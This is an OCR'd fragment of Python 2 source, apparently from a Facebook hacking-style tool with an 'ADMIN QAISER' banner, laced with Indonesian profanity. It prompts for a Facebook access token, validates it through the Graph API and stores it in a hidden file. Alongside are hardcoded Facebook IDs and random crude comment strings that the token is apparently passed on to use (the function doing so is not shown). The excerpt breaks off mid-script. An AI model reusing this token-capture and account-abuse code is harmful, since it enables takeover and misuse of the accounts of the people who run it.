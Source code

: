 id = []
user = []
loop = 0
xi_jimpinx = '1714000985456399'
koh = '100005395413800'
hoetank = random.choice(['Yang posting orang nya ganteng:)', 'Lo ngentod:v', 'Never surrentod tekentod kentod:v'])
bulan_ttl = {'01': 'Januari', '02': 'Februari', '03': 'Maret', '04': 'April', '05': 'Mei', '06': 'Juni', '07': 'Juli', '08': 'Agustus', '09': 'September', '10': 'Oktober', '11': 'November', '12': 'Desember'}

def jalan(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def tod():
    titik = ['\x1b[1;92m.   ', '\x1b[1;93m..  ', '\x1b[1;96m... ', '\x1b[1;92m.   ', '\x1b[1;93m..  ', '\x1b[1;96m... ']
    for x in titik:
        print '\r %s[%s+%s] Removed Token %s' % (N, N, N, x),
        sys.stdout.flush()
        time.sleep(1)


logo ="""
         \x1b[0;91m   *                  \033[1;0m
         \x1b[0;91m (  `         *   )   \033[1;0m
         \x1b[0;91m )\))(    ( ` )  /(   \033[1;0m
         \x1b[0;91m((_)()\   )\ ( )(_))  \033[1;0m
         \x1b[0;91m(_()((_) ((_|_(_())   \033[1;0m\tMajestic
         \x1b[0;94m _    _    _ _ _ _     \033[1;0m
         \x1b[1;94m|  \/  |_ | |_   _|   \033[1;0m
         \x1b[1;94m| |\/| | || | | |     \033[1;0m
         \x1b[1;94m|_|  |_|\__/  |_|     \033[1;0m
\n\x1b[1;97m===========\x1b[1;97m===========================================
\033[1;96m[!]\033[1;97mADMIN\x1b[1;97m : \x1b[1;97mQAISER \033[1;96m[!]\033[1;97mVersion\x1b[1;97m : \x1b[1;97m3.3.3 \033[1;96m[!]\033[1;97mFb\x1b[1;97m : \x1b[1;97mBILAL
\x1b[1;97m===========\x1b[1;97m===========================================
                                                 """

lo_ngentod = '1714009362122228'

def yayanxd():
    os.system('clear')
    kontol = raw_input('\n%s[%sX%s] Enter Token :%s ' % (N, M, N, H))
    if kontol in ('fuck', 'Fuck', 'FUCK'):
        os.system('clear')
        print logo
        print '_____________________________________________________\n'
        raw_input(' \n%sX%s Enter Token : ' % (O, N))
        os.system('xdg-open https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_')
        yayanxd()
    try:
        Name = requests.get('https://graph.facebook.com/me?access_token=%s' % kontol).json()['name']
        print '\n\n %sX%s Welcome To Fucking World %s%s%s' % (O, N, K, Name, N)
        time.sleep(2)
        open('.memek.txt', 'w').write(kontol)
        wuhan(kontol)
        os.system('xdg-open https://youtu.be/2NKmiCZSIAA')
        moch_yayan()
    except KeyError:
        print '\n  Invalid Token / ReLogin' 
        time.sleep(2)
        yayanxd()